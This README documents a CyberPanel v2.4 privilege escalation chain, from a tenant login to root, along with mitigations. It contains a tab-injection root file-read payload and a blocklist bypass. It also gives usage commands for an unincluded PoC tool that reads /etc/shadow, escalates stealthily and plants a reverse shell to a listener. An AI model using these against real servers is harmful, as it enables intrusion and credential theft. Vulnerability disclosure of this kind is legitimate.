



# CyberPanel v2.4 — Authenticated Privilege Escalation Chain

> **FOR EDUCATIONAL AND AUTHORIZED SECURITY TESTING ONLY**
>
> This repository documents a vulnerability chain discovered during
> authorized security research on 2026-05-17. All findings were tested
> against a self-owned CyberPanel instance. The PoC server has been
> decommissioned — no live target is available.
>
> **Do not use any of this material against systems you do not own or
> have explicit written authorization to test.** Unauthorized access to
> computer systems is illegal under the CFAA (US), Computer Misuse Act
> (UK), and equivalent laws worldwide. The author assumes no liability
> for misuse.

---

## Summary

A normal CyberPanel tenant user (with only panel login access and at
least one website) can escalate privileges to **full admin panel control
and root-level file access** through a chain of independently exploitable
vulnerabilities. The chain requires no SSH access, no API access, and no
prior elevated permissions.

**Every default CyberPanel v2.4 Build 6 installation is affected out of
the box** — no custom configurations or misconfigurations are required.

| Field | Value |
|-------|-------|
| Product | CyberPanel v2.4 Build 6 |
| Environment | Ubuntu 24.04 LTS, Django 4.2.14, Python 3.12, OpenLiteSpeed, MariaDB |
| Research date | 2026-05-17 / 2026-05-18 |
| Author | Mohd Tajul Asri (espressobyte@gmail.com) |
| PoC server | Decommissioned (was `139.180.134.221:8090`) |

---

## The Escalation Chain

A normal tenant user (type=3) with one website goes from **panel login
to root** in 6 steps:

```
Step 1: Panel login (normal user credentials)
   │
   ▼
Step 2: Webhook RCE → site user shell
   │    saveGitConfigurations stores arbitrary commands
   │    POST /websites/<domain>/webhook triggers them (NO AUTH)
   │    Commands run as the website's system user via subprocess
   │
   ▼
Step 3: Read /usr/local/CyberCP/.env (world-readable 0644)
   │    Contains: SECRET_KEY, DB_PASSWORD, ROOT_DB_PASSWORD
   │    MySQL root password exposed to any local process
   │
   ▼
Step 4: MySQL root → enable own API access (stealth)
   │    UPDATE loginSystem_administrator SET api=1
   │    Invisible in panel UI — no audit trail
   │    API tokens are pre-generated at account creation
   │
   ▼
Step 5: FetchRemoteTransferStatus → root file read
   │    Tab injection in dir field: "\t/etc/cyberpanel/adminPass\t"
   │    cat runs as root via outputExecutioner(shell=True)
   │    No ACL check — any user with api=1 can use it
   │
   ▼
Step 6: Admin password = root SSH password (CyberPanel default)
         Full server compromise
```

---

## Vulnerability Breakdown

### Vuln 1 — Unauthenticated Webhook Command Execution

**Source**: `websiteFunctions/views.py` line 1838 (`@csrf_exempt`)

The endpoint `POST /websites/<domain>/webhook` triggers execution of
commands previously stored via `saveGitConfigurations`. The webhook
performs **no authentication check** — anyone who knows a valid domain
name can trigger stored commands.

`saveGitConfigurations` accepts arbitrary shell commands in the `commands`
field. While `secMiddleware.py` applies a character blocklist, the webhook
URL matches the middleware exclusion pattern (line 135: `webhook|gitNotify`).

Additionally, `printf` with octal escapes (`\046` for `&`, `\076` for `>`)
bypasses the blocklist at execution time, enabling arbitrary file writes.

**Impact**: Remote code execution as the website's system user.

### Vuln 2 — World-Readable .env File

**Path**: `/usr/local/CyberCP/.env` — permissions `0644 root:root`

Contains:
- `SECRET_KEY` — Django secret key (enables session forgery)
- `DB_PASSWORD` — MySQL root password
- `ROOT_DB_PASSWORD` — MySQL root password (duplicated)

Any process on the system can read this file. The site-user shell obtained
via Vuln 1 reads these credentials directly.

### Vuln 3 — Pre-Generated API Tokens + Missing Audit Trail

**Source**: `loginSystem/models.py` line 86

API tokens are pre-generated for **all users at account creation**, stored
in plaintext in `loginSystem_administrator`. The `api` field defaults to
`0` (disabled), but using MySQL root credentials from Vuln 2, an attacker
can `SET api=1` — this change is **not visible in the panel UI** and
leaves no audit trail.

### Vuln 4 — Root File Read via Tab Injection (FetchRemoteTransferStatus)

**Source**: `api/views.py` line 603

The `dir` field is concatenated into: `cat /home/backup/transfer-{dir}/backup_log`

This runs with `shell=True` as root via `outputExecutioner`. Tab characters
in `dir` act as IFS word separators, causing `cat` to read additional files:

```
dir = "\t/etc/cyberpanel/adminPass\t"
→ cat /home/backup/transfer-  /etc/cyberpanel/adminPass  /backup_log
                               ^^^^^^^^^^^^^^^^^^^^^^^^
                               injected file read as root
```

No ACL check — any user with `api=1` can read arbitrary files as root.

### Vuln 5 — CVE-2024-51567 Incomplete Fix (statusfile)

Three endpoints (`upgrademysqlstatus`, `dns/getresetstatus`,
`ftp/getresetstatus`) run `sudo cat " + statusfile` with `shell=True`
as root.

The original CVE-2024-51567 allowed RCE via `;` in `statusfile`. The fix
added a middleware blocklist for `;`, `$`, `` ` ``, `|`, `&&` — but **not
tab (`\t`)**. Tab bypass enables root file read on all 3 endpoints.

### Additional Findings

| ID | Type | Auth | Description |
|----|------|------|-------------|
| F1 | Data injection | None | `/api/ai-scanner/status-webhook` accepts forged scan status |
| F2 | File oracle | None | `/api/runAWSBackups` reveals file existence |
| F3 | Info disclosure | None | `/api/ai-scanner/list-api-keys` leaks API keys |
| MW | Filter bypass | None | Middleware allows tab, single-quote on API endpoints |

---

## Evidence

All evidence captured 2026-05-18 against self-owned test server.

### 1. Webhook RCE — Command Execution



Executing `id` via the webhook chain. Output shows `uid=1005(cpdem3148)`
confirming code execution as the website's system user.

### 2. ENV Leak — Credential Harvest



Reading `/usr/local/CyberCP/.env` via webhook RCE. Full contents exposed
including `SECRET_KEY`, `DB_PASSWORD`, and `ROOT_DB_PASSWORD`.

### 3. Database Dump — Admin Users and API Tokens



MySQL root access via leaked credentials. Admin users table dumped showing
usernames, types, API status, and plaintext tokens. Active Django sessions
also extracted.

---

## PoC Tool Usage

The PoC script (`cp_poc.py`) is a standalone Python 3.8+ tool using
stdlib only — no dependencies.

> **Note**: The original test server (`139.180.134.221:8090`) has been
> decommissioned. To reproduce, set up your own CyberPanel v2.4 Build 6
> instance with a normal tenant user and at least one website.

### Subcommands

| Command | Auth Required | Description |
|---------|--------------|-------------|
| `recon` | Mixed | Full automated recon and exploitation |
| `exec` | Panel login | Execute arbitrary command via webhook RCE |
| `env-leak` | Panel login | Read .env → extract DB creds and SECRET_KEY |
| `db-dump` | Panel login | MySQL root dump → admin table + API tokens |
| `escalate` | Panel login | Stealth: enable API + extract tokens |
| `revshell` | Panel login | Write reverse shell via printf octal bypass |
| `info-leak` | None | F3: API key disclosure |
| `status-inject` | None | F1: Status webhook data injection |
| `file-oracle` | None | F2: File existence oracle |
| `file-read` | API creds | F11: Root file read via tab injection |
| `statusfile` | Admin | F12: CVE-2024-51567 incomplete fix |
| `webhook-rce` | Panel login | Manual store + trigger + read webhook RCE |
| `middleware` | None | Probe middleware bypass vectors |

### Examples

```bash
# Full automated recon (unauthenticated checks only)
python3 cp_poc.py recon https://target:8090

# Full recon with panel creds + domain
python3 cp_poc.py recon https://target:8090 -u user -p pass -d site.com

# Execute command via webhook RCE
python3 cp_poc.py exec https://target:8090 -d site.com -u user -p pass -c "id"

# Read .env credentials
python3 cp_poc.py env-leak https://target:8090 -d site.com -u user -p pass

# Dump admin database
python3 cp_poc.py db-dump https://target:8090 -d site.com -u user -p pass

# Stealth escalation chain
python3 cp_poc.py escalate https://target:8090 -d site.com -u user -p pass

# Root file read (after escalation gives API creds)
python3 cp_poc.py file-read https://target:8090 --api-user user --api-pass token -f /etc/shadow

# Write reverse shell (does NOT auto-trigger without --trigger)
python3 cp_poc.py revshell https://target:8090 -d site.com -u user -p pass \
    --lhost 10.0.0.1 --lport 4444
```

### Parameters

| Flag | Description |
|------|-------------|
| `target` | CyberPanel URL (`https://host:8090`) |
| `-u / --user` | Panel username (normal tenant) |
| `-p / --password` | Panel password |
| `-d / --domain` | Domain hosted on the panel (owned by the user) |
| `-c / --command` | Command to execute (for `exec` subcommand) |
| `-f / --file` | File path to read (for `file-read`, `file-oracle`, `statusfile`) |
| `--api-user` | API username (for F11 file read) |
| `--api-pass` | API password/token (for F11 file read) |
| `--db-password` | MySQL root password (auto-extracted from .env if omitted) |
| `--lhost` | Listener IP for reverse shell |
| `--lport` | Listener port for reverse shell |
| `--trigger` | Auto-trigger reverse shell after writing |

### Constraints

| Constraint | Detail |
|-----------|--------|
| CyberPanel version | v2.4 Build 6 (default installation) |
| User type | Normal tenant (type=3) with at least one website |
| SSH access | NOT required |
| API access | NOT required (escalation enables it) |
| Domain knowledge | Attacker must know a valid domain on the panel |
| Webhook trigger | Unauthenticated — anyone knowing the domain can trigger |

---

## Repository Structure

```
cyberpanel/
├── README.md                  ← This file
├── cp_poc.py                  ← PoC tool (Python 3.8+, stdlib only)
└── screenshots/
    ├── 01-webhook-rce-id.png
    ├── 02-env-leak-credentials.png
    └── 03-db-dump-admin-tokens.png
```

---

## Suggested Mitigations

1. **Add authentication to the webhook endpoint** — require a secret
   token per-domain for `/websites/<domain>/webhook`
2. **Restrict .env file permissions** — `chmod 600 /usr/local/CyberCP/.env`
   in the installer and upgrade scripts
3. **Use a dedicated MySQL user** with minimal privileges instead of root
4. **Generate API tokens on-demand** only when a user explicitly enables
   API access, not at account creation
5. **Add ACL checks to FetchRemoteTransferStatus** — restrict to admin
   users only
6. **Fix statusfile injection** — input validation, not just blocklist
   (tab bypass proves blocklist is insufficient)
7. **Separate admin panel password from root SSH** — do not reuse
   credentials across trust boundaries

---

## Timeline

| Date | Event |
|------|-------|
| 2026-05-17 | Vulnerabilities discovered and PoC developed |
| 2026-05-18 | Full chain verified, screenshots and video captured |
| 2026-10-22 | Research published for educational purposes |

---

## References

- [CyberPanel GitHub](https://github.com/usmannasir/cyberpanel)
- [CVE-2024-51567](https://nvd.nist.gov/vuln/detail/CVE-2024-51567) — Original statusfile RCE (incomplete fix)
- [CWE-287](https://cwe.mitre.org/data/definitions/287.html) — Improper Authentication
- [CWE-732](https://cwe.mitre.org/data/definitions/732.html) — Incorrect Permission Assignment
- [CWE-78](https://cwe.mitre.org/data/definitions/78.html) — OS Command Injection

---

## Disclaimer

This material is provided "as is" for educational and authorized security
testing purposes only. All testing was performed on self-owned infrastructure.
The PoC server has been decommissioned and is no longer accessible. The
author is not responsible for any misuse, damage, or illegal activity
resulting from the use of this code or documentation. Always obtain proper
authorization before testing any system you do not own.
